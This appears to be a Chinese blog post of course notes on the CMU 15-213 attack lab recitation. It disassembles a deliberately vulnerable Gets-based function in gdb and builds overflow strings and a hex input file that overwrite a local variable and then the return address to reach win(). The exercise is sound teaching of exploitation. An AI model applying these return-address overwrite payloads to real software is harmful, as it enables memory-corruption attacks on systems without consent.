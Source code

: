 ```yaml
---
title: Attack lab recitation
categories:
  - 系统入门
date: 2024-02-29 17:20:40
tags:
  - x86汇编
  - 逆向工程
lastmod: 2025-03-19T16:15:07+08:00
series:
  - 15-213
authors:
  - Salvely
seriesNavigation: true
enableLastMod: true
enableWordCount: true
enableReadingTime: true
toc:
  enable: true
  auto: false
code:
  maxShownlines: 100
---
```

<!--more-->

输入`gdb activity`，开启 activity 之旅。

> Objective: The goal of this activity is to input a string that causes the program to call win(0x15213),
> and thereby win a cookie.
> 在开启之前，先查看一下`solve`函数的内容：

```c
void solve(void) {
    volatile long before = 0xb4;
    char buf[16];
    volatile long after = 0xaf;

    Gets(buf);

    if (before == 0x3331323531) {
        win(0x15213);
    }

    if (after == 0x3331323831) {
        win(0x18213);
    }
}
```

看一下`solve`的汇编代码：

```
(gdb) disas solve
Dump of assembler code for function solve:
   0x00000000000011df <+0>:     endbr64
   0x00000000000011e3 <+4>:     sub    $0x38,%rsp
   0x00000000000011e7 <+8>:     movq   $0xb4,0x28(%rsp)
   0x00000000000011f0 <+17>:    movq   $0xaf,0x8(%rsp)
   0x00000000000011f9 <+26>:    lea    0x10(%rsp),%rdi
   0x00000000000011fe <+31>:    callq  0x1279 <Gets>
   0x0000000000001203 <+36>:    mov    0x28(%rsp),%rdx
   0x0000000000001208 <+41>:    movabs $0x3331323531,%rax
   0x0000000000001212 <+51>:    cmp    %rax,%rdx
   0x0000000000001215 <+54>:    je     0x1230 <solve+81>
   0x0000000000001217 <+56>:    mov    0x8(%rsp),%rdx
   0x000000000000121c <+61>:    movabs $0x3331323831,%rax
   0x0000000000001226 <+71>:    cmp    %rax,%rdx
   0x0000000000001229 <+74>:    je     0x123c <solve+93>
   0x000000000000122b <+76>:    add    $0x38,%rsp
   0x000000000000122f <+80>:    retq
   0x0000000000001230 <+81>:    mov    $0x15213,%edi
   0x0000000000001235 <+86>:    callq  0x1169 <win>
   0x000000000000123a <+91>:    jmp    0x1217 <solve+56>
   0x000000000000123c <+93>:    mov    $0x18213,%edi
   0x0000000000001241 <+98>:    callq  0x1169 <win>
   0x0000000000001246 <+103>:   jmp    0x122b <solve+76>
End of assembler dump.
```

函数给`solve`预留了 56 个字节的空间：

1. `before = 0xb4`移动到`%rsp + 40`处
2. `after = 0xaf`移动到`%rsp + 8`处
3. `%rdi = %rsp + 16`
4. 调用`gets`
5. `%rdx = *(%rsp + 40)`，把`before`赋给`%rdx`
6. `%rax = $0x3331323531`
7. 接下来是个判断：

```c
if(rdx == rax) {
    edi = 0x15213;
    callq win
}
rdx = *(rsp + 8);
rax = 0x3331323831;
if(rdx == rax) {
  edi = 0x18213;
  callq win;
}
rsp += 40;
return;
```

完成`gets`之前的调用后，栈分布大致如下（一共 56 个字节的分配）：

1. `rsp`处没有值
2. `rsp + 8`处存储`after = 0xaf`
3. `rsp + 16 ~ rsp + 24`处存储 16 字节的`buf`
4. `rsp + 32`处 8 个字节空闲
5. `rsp + 40`处存储`before = 0xb4`
6. `rsp + 56`处存储的是调用`solve`的`return address`

### 普通缓冲区溢出

查看代码可以理解，要让程序调用`win(0x15213)`，需要让`rdx == 0x3331323531`，而在这之前`rdx = before`，所以我们的根本目的是让`before = 0x3331323531`。就得让`buf`前 24 个字节为 0，后八个字节等于`0x3331323531`。该机器为小端法机器，那么这 8 个字节从低地址到高地址的顺序应该是：`0x31 0x35 0x32 0x31 0x33 0x00 0x00 0x00`，这 8 个个字节翻译成`ASCII码`就是`15213`。此外`gets`一定要读到`\n`字符，它会把`\n`替换为`\0`字符。它不是读到`\0`字符就终止。后面不需要加`0`，因为`0`的`ASCII`编码是`0x30`。如果最后加了 3 个`0`的话，最后 8 个字节的地址就会变成`0x31 0x35 0x32 0x31 0x33 0x30 0x30 0x30`。

> 有几条要注意的点：
>
> 1. 机器为小端法机器，写内存的时候要把数字倒过来
> 2. `0x00`是在 ASCII 码里面是空字符，`0x30`在 ASCII 码里面是`0`
> 3. `gets`要读到`\n`，他会把`\n`替换成`\0`存储在`buf`中，无需手动`\0`
> 4. 输入的时候只能输入字符串，而不能输入 10 进制或者 16 进制的值，如果函数没有调用`atoi`，输入一律被当作字符串处理。因此我们需要输入`0x3331323531`对应的`ASCII`编码，而不是这个值本身。

输入`01234567890123456789012315213`，成功调用`win(0x15213)`。如下：

```
gwen@gwen-virtual-machine:~/Documents/report/code/15213/Ch3 Machine Level Programming/rec5/src$ ./activity
01234567890123456789012315213
You win 1 cookie! Great start!
Returning normally from main
```

### 包含返回地址攻击的缓冲区溢出

要让这个`solve`函数跳转到我们插入的代码段（未开启栈随机化/`canary`/`NX bit`及其他防护机制，不考虑`nop sled`），我们需要利用缓冲区溢出，让`return address`修改为我们所插入的代码段的地址。我们需要让`buf`的前 40 个字节为任意内容，最后 8 个字节为我们插入的攻击代码的地址。

我们这次的目的是想调到`<solve +93>`位置处，本次运行过程中该位置的地址是`0x000055555555523c`，过会儿我们要将其插入`buf`的第 48-48 字节处。该地址的值换算成小端法是`0x3c 0x52 0x55 0x55 0x55 0x55 0x00 0x00`。其对应的`ASCII码`是`<RUUUU`，后面的`null`为`0x00`。我们要让程序返回的时候跳转到`mov $0x18213,%edi`。那么构造的字符串应该是`0123456789012345678901234567890123456789<RUUUU`。结果如下：

```
43          if (after == 0x3331323831) {
(gdb) n
solve () at activity.c:44
44              win(0x18213);
(gdb)
You win 2 cookies! Woohoo!
0x0000000000000000 in ?? ()
```

成功！

### 引导程序到攻击代码

此处我们进行更进阶的攻击，程序中函数`solve()`并未调用过`win(0x18613)`，让我们尝试返回到`win(0x18613)`中。此时我们不光只破解`solve()`，还需要对`win`函数的代码进行分析。结果如下：

```
(gdb) disas win
Dump of assembler code for function win:
   0x0000555555555169 <+0>:     endbr64
   0x000055555555516d <+4>:     sub    $0x8,%rsp
   0x0000555555555171 <+8>:     cmp    $0x15213,%edi
   0x0000555555555177 <+14>:    je     0x5555555551a7 <win+62>
   0x0000555555555179 <+16>:    cmp    $0x18213,%edi
   0x000055555555517f <+22>:    je     0x5555555551b5 <win+76>
   0x0000555555555181 <+24>:    cmp    $0x18613,%edi
   0x0000555555555187 <+30>:    je     0x5555555551c3 <win+90>
   0x0000555555555189 <+32>:    mov    0x2ea1(%rip),%eax        # 0x555555558030 <mystery>
   0x000055555555518f <+38>:    cmp    $0x15513,%eax
   0x0000555555555194 <+43>:    je     0x5555555551d1 <win+104>
   0x0000555555555196 <+45>:    lea    0xed3(%rip),%rdi        # 0x555555556070
   0x000055555555519d <+52>:    callq  0x555555555030 <puts@plt>
   0x00005555555551a2 <+57>:    add    $0x8,%rsp
   0x00005555555551a6 <+61>:    retq
   0x00005555555551a7 <+62>:    lea    0xe5a(%rip),%rdi        # 0x555555556008
   0x00005555555551ae <+69>:    callq  0x555555555030 <puts@plt>
   0x00005555555551b3 <+74>:    jmp    0x5555555551a2 <win+57>
   0x00005555555551b5 <+76>:    lea    0xedc(%rip),%rdi        # 0x555555556098
   0x00005555555551bc <+83>:    callq  0x555555555030 <puts@plt>
   0x00005555555551c1 <+88>:    jmp    0x5555555551a2 <win+57>
   0x00005555555551c3 <+90>:    lea    0xe5e(%rip),%rdi        # 0x555555556028
   0x00005555555551ca <+97>:    callq  0x555555555030 <puts@plt>
   0x00005555555551cf <+102>:   jmp    0x5555555551a2 <win+57>
   0x00005555555551d1 <+104>:   lea    0xe78(%rip),%rdi        # 0x555555556050
   0x00005555555551d8 <+111>:   callq  0x555555555030 <puts@plt>
   0x00005555555551dd <+116>:   jmp    0x5555555551a2 <win+57>
End of assembler dump.
```

我们需要跳转到`if(arg == 0x18613)`后面那句，也就是`<win+90>`处，该条指令的地址是`0x00005555555551c3`，转化成小端法是`0xc3 0x51 0x55 0x55 0x55 0x55 0x00 0x00`，转化成`ASCII码`也就是`ÃQUUUU`。因此，我们构造的字符串应该是`0123456789012345678901234567890123456789ÃQUUUU`。结果如下：

```
(gdb) p $rsp
$2 = (void *) 0x555555559018 <my_stack+4056>
(gdb) x/s 0x555555559018
0x555555559018 <my_stack+4056>: "ÃQUUUU"
(gdb) x/6bx 0x555555559018
0x555555559018 <my_stack+4056>: 0xc3    0x83    0x51    0x55    0x55    0x55
```

这里出现了一点问题，就是`Ã`采用`Unicode`扩展编码，其编码为`0xc3 0x83`，而我们仅仅需要`0xc3`，因此我们需要将 16 进制的地址写在文件里，然后用文件作为`activity`的输入。

[Slides 中最后一页](https://www.cs.cmu.edu/afs/cs/academic/class/15213-f23/www/recitations/rec04_slides.pdf)告诉我们，提供了`hex2raw`脚本，可以把 16 进制值写到`input2.txt`中，然后通过`hex2raw`转化为`input2.bin`。我们在`input2.txt`中写入值`30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 31 35 32 31 33 00 30 31 32 33 34 35 36 37 38 39 c3 51 55 55 55 55`，将其转化，然后输入`./activity < ../inputs/input2.bin`。

结果如下：

```
(gdb) r < ../inputs/input2.bin
Starting program: /home/gwen/Documents/report/code/15213/Ch3 Machine Level Programming/rec5/src/activity < ../inputs/input2.bin
You win 3 cookies! That's right!

Program received signal SIGSEGV, Segmentation fault.
```

成功！
